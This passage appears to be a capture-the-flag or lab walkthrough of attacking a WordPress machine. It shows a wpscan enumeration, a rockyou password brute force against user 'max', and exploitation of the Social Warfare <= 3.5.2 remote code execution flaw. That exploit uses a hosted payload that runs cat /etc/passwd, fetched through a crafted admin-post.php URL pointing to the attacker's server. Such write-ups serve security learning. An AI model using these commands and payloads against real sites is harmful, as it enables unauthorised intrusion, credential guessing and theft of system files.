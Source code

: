 Running a wpscan to see what we can find:

`wpscan --url http://$ip/wordpress/ -v -t 20 -e vt,tt,u,vp,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive --api-token TOKEN`

```
[+] WordPress version 5.4.2 identified

[!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution (RCE)
 
[i] User(s) Identified:
[+] admin
[+] max
```

I decide to brute force the max user with wpscan and it finds the password fairly quickly:

`wpscan --url http://$ip/wordpress/wp-login.php -v --passwords rockyou.txt --usernames max --max-threads 50 --api-token TOKEN`

```
[!] Valid Combinations Found:
 | Username: max, Password: <REDACTED>
```

Before I start digging around with this user I wanted to test out the Social Warfare RCE that wpscan found.

[**This link explains how to perform the attack.**](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618)

I create a text file called rce.txt and add the following to it:

```
<pre>system('cat /etc/passwd')</pre>
```

I start up a python3 simple HTTP server listener on my system to host the file and then navigate to this link which points the site back to me and the file I created:

```
http://192.168.56.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.56/rce.txt
```

Sure enough, it returns the contents of /etc/passwd!
